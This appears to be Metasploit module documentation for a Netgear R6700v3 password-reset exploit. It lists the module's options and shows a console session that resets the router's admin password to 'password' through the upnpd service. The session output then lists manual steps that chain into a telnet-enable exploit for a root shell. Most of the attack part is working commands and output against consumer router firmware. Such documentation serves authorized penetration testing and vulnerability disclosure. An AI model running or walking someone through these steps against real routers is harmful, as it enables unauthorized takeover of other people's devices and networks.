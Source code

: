 ## Options

### RHOSTS

IP address of the LAN interface of the vulnerable target.

### RPORT

upnpd port on the target. Default 5000.

## Scenarios

### Netgear R6700v3 firmware version V1.0.4.84_10.0.58

```
    msf > use auxiliary/admin/http/netgear_r6700_pass_reset
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > show options
    
    Module options (auxiliary/admin/http/netgear_r6700_pass_reset):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    5000             yes       The target port (TCP)
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       VHOST                     no        HTTP server virtual host
    
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > check
    
    [*] Target is running firmware version 1.0.4.84
    [*] 192.168.1.1:5000 - The target appears to be vulnerable.
    msf auxiliary(admin/http/netgear_r6700_pass_reset) > exploit
    [*] Running module against 192.168.1.1
    
    [*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
    [+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
    [*] To achieve code execution, do the following steps manually:
    [*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
    [*]     1.1- go to Advanced -> Administration -> Set Password
    [*]     1.2- Change the password from 'password' to <WHATEVER>
    [*] 2- Run metasploit as root, then:
    [*]     2.1- use exploit/linux/telnet/netgear_telnetenable
    [*]     2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
    [*]     2.3- set rhost 192.168.1.1
    [*]     2.3- set username admin
    [*]     2.4- set password <WHATEVER>
    [*]     2.5- OPTIONAL: set timeout 1500
    [*]     2.6- OPTIONAL: set MAC <ROUTERS_MAC>
    [*]     2.7- run it and login with 'admin:<WHATEVER>'
    [*] 3- Enjoy your root shell!
    [*] Auxiliary module execution completed
    msf auxiliary(admin/http/netgear_r6700_pass_reset) >
```
